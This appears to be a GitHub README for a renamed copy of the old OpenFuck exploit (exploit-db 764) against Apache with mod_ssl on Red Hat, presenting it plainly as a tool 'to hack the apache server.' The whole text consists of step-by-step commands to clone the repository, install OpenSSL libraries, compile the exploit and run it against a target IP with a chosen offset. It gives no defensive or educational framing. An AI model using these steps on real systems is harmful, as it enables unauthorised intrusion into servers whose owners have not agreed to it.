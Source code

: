 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.

This is an exploit to hack the apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download the below file
~~~
git clone https://github.com/Dpentester/Open6uck.git
~~~
2. Install libssl-dev & libssl1.0-dev
~~~
apt install libssl-dev
apt install libssl1.0-dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
